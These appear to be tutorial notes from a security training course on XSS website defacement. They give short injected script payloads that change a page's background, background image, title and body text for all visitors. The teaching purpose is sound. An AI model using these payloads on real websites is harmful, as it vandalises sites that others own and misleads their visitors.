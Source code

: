 # Defacing

Stored XSS being the most critical, while a Refelected and DOM-based being less so

Defacing a website means changing its look for anyone who visits the website.

## Defacement Elements

Three HTML elements are usually utilized to change the main look of a web page:

Background Color document.body.style.background
Background document.body.background
Page Title document.title
Page Text DOM.innerHTML

Changing Background color
<script>document.body.style.background = "#141d2b"</script>

Set an image to the background
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>

Changing Page Title
<script>document.title = 'HackTheBox Academy'</script>

Changing Page Text
document.getElementById("todo").innerHTML = "New Text"
\$("#todo").html('New Text');
document.getElementsByTagName('body')[0].innerHTML = "New Text"


